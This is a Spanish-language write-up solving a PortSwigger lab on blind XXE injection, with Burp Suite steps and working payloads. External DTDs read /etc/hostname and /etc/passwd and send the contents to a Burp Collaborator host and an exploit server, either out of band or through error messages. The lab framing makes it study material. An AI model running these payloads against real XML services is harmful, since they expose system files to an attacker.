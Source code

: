 ```yaml
---
title: "Exploiting blind XXE to retrieve data via error messages"
description: "Laboratorio de Portswigger sobre XXE Injection"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting blind XXE to retrieve data via error messages
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` de `Check stock` que analiza entradas en `formato XML`, pero `no muestra` el `resultado`. Para resolver el laboratorio, hay que utilizar un `DTD externo` para `provocar` un `mensaje` de `error` que `muestre` el `contenido` del archivo `/etc/passwd`. El laboratorio incluye un enlace a un `servidor` de `exploits` en un dominio diferente donde podemos alojar un `DTD malicioso`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-6/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-6/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-6/image_3.png)

`Enviamos` una `petición` con un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE` pero la `web` con `responde` con un `mensaje` de `Entities are not allowed for security reasons`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este `dominio` obtenido lo vamos a usar para construir este `payload`, el `%` sirve para `llamar` a la `entidad` desde el `DTD` creado

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`, lo cual quiere decir que ya tenemos un `XXE out-of-band interaction`

![](/assets/img/XXE-Injection-Lab-6/image_4.png)

Al `enviar` la `petición` obtenemos una `respuesta` que `refleja` un `error`

![](/assets/img/XXE-Injection-Lab-6/image_5.png)

Lo que podemos hacer ahora que hemos confirmado que podemos `cargar` un `recurso` del `servidor externo` es pulsar en `Go to exploit server`, introducir este `payload` en la parte de `Body` y pulsar sobre `Store` para almacenarlo. Esto `&#x25` es `%` pero en `hexadecimal`, se debe poner así y no en el formato normal para que funcione correctamente

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m?content=%file;'>">
%eval;
%exfil;
```

Lo siguiente que debemos hacer es irnos a donde pone `Craft response`, copiar la url `https://exploit-0aa200cb045beea1d8e97fad01f20055.exploit-server.net/exploit` y `enviar` la `petición`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0ad700d403aa94da80ea66ed01e5007e.exploit-server.net/exploit"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Ahora nos vamos a `Burpsuite Collaborator`, pulsamos en `Resquest to Collaborator` y vemos el `/etc/hostname`

![](/assets/img/XXE-Injection-Lab-6/image_6.png)

Sin embargo, no nos pide el `/etc/hostname`, lo que nos pide es el `/etc/passwd` y mediante el método anterior no podemos obtenerlo debido a que tiene más de una línea. Podríamos usar este `payload` pero `no funciona` el `wrapper` de `php` que `encodea` en `base64`

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com?content=%file;'>">
%eval;
%exfil;
```

Debido a que cada vez que enviamos una petición `obtenemos` un `mensaje` de `error` podemos `exfiltrar data` mediante este `mensaje` de `error`. Lo primero es `craftearnos` un `entity` que `cargue` el `/etc/passwd` y luego otro `entity` que `cargue` un `archivo inexistente` provocando así un `error`

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///noExiste/%file;'>">
%eval;
%exfil;
```

`Enviamos` nuestra `petición` a nuestro `servidor` donde se encuentra el `exploit`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0ad700d403aa94da80ea66ed01e5007e.exploit-server.net/exploit"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

El `servidor` nos `muestra` en el `error` el `/etc/passwd`

![](/assets/img/XXE-Injection-Lab-6/image_7.png)
